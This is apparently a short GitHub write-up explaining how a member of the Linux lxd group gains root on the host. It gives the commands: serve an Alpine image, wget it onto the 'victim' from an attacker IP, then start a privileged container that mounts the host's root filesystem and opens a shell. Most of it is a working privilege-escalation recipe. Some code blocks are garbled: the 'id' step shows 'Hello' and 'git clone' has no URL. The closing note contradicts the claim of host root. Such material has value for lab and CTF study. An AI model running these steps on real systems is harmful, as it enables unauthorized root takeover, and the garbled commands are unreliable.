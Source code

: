 # Lxd-Privilege-Escalation-in-Linux
In this writeup we will cover how a member of a local “lxd” group can instantly escalate the privileges to root on the host operating system.


## Follow the Steps:
First, run the id command to check whether your user belongs to the lxd group or not.
```
Hello
```

If lxd is listed, then continue.

Download a this Alpine Linux container image from github.
```
git clone
```

Now share this image file alphine-v3.13-x86_64-20210218_0139.tar.gz to the victim machine.
```
python3 -m http.server 80
```

Download the image file with wget command.
```
wget 10.8.9.235/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

Now import this lxd container into lxd environment and give it an alias.
```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```

Display a list of all the images stored in the local LXD image store
```
lxc image list
```

Now run the following command one by one.
```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Navigate to /mnt/root to access the host's filesystem with root privileges
```
cd /mnt/root
```

Now here we have full control within the container.

### Note: Being root inside a container doesn’t automatically translate to having root access on the host system, as containers are designed to isolate processes.

## Happy Hacking…. | ZAARA
